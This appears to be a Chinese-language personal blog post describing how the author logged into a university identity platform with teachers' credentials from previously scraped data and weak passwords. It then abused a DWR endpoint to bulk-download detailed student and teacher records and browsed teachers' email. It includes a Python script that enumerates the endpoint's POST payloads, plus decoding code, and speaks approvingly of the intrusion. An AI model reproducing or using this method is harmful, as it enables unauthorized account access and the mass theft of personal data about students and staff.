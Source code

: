 ```yaml
---
layout: post
title: Crawl From Little II
categories: 学习数据挖掘的路上
tags: 
- 学习笔记
- 抓取数据
---
```

#### 接上回那个勉强算得上或算不上抓取的回忆，但是那些数据之中有一些很敏感的信息，包括教师的详细信息，利用这个信息登陆统一身份验证平台，想必又会有收货呢

### 登陆统一身份验证平台
在登陆的过程中，发现女老师对密码安全基本是没什么意识的，虽然你们也是计算机学院的，但是你们真的好意思说你们是计算机学员的吗？
在登陆进去，发现老师可以查询学生的信息（仅包含姓名学号，班级），看了看挺失望的，毕竟这些信息没什么鸟用，但是当我看网页源码的时候，发现这个系统的开发人员很不负责，只是把之前写的文本框给遮盖了，但是还是靠那个传数据。于是抓包分析，发现是post request payload，response的结果却是student的详细信息(一应俱全，应有尽有),好呗
不得不说，很激动，抓呗。

```python
#-*-coding:utf-8-*-
import requests
import urllib2
import urllib
import encodings

url = ""
header={}
def xs(request_payload):
	request = urllib2.Request(url, headers=headers, data=urllib.urlencode(request_payload))
	response = urllib2.urlopen(request, timeout=5)
	content = response.read()
	print(content)

for i in range(1,70):
	m_request_payload = {
	'callCount':'1',
	'httpSessionId':'ssssssssssssssssssssssssss',
	'scriptSessionId':'sssssssssssssssssssssssss',
	'page':'/xxxxx/xxxxx/171',
	'c0-scriptName':'XSXXDwrAction',
	'c0-methodName':'getList',
	'c0-id':'165116513216516',
	'c0-param0':'number:'+ str(i),
	'c0-param1':'null:null',
	'c0-param2':'null:null',
	'c0-param3':'string:',
	'c0-param4':'number:15'
}
xs(m_request_payload)
	
```
当然这还没有解码，数据获取的类型是
![img5](/images//crawl/5.png)

```python
import  re
pattern = r'"(.*?)"'
with open('IDinfomation','r') as f:
    key = re.findall(pattern,f.read())
    for peopele in key:
    tt=peopele.decode('raw_unicode_escape').encode('utf-8')
```

最后稍微提取一下就能得到详细的信息了，全是你想要的，如果在内网中，还可以通过统一身份平台跳到教务系统，然后把这些人的图片爬下来，哈哈，想想都有点激动呢。

然后晚上的时候，登一个账号发现里面的通讯录的response也是很奇怪，把老师的详细信息都response了，稍微改下post,于是所有的老师更加详细的信息到手。而且没事还挑了几个老师的学校邮箱看了看，不过并没有什么有用的。
本来想做个统计，绘个图表，结果发现统一信息门户里面都已经给了可视化的图，虽然很丑。不过我现在数据并未完全组织好，也没插入到数据库，电脑估计是要重装了。之前折腾的有问题了。

最后，老师来查mac地址，希望没事吧。虽然这个没有什么技术含量，但是还是很有动力的。



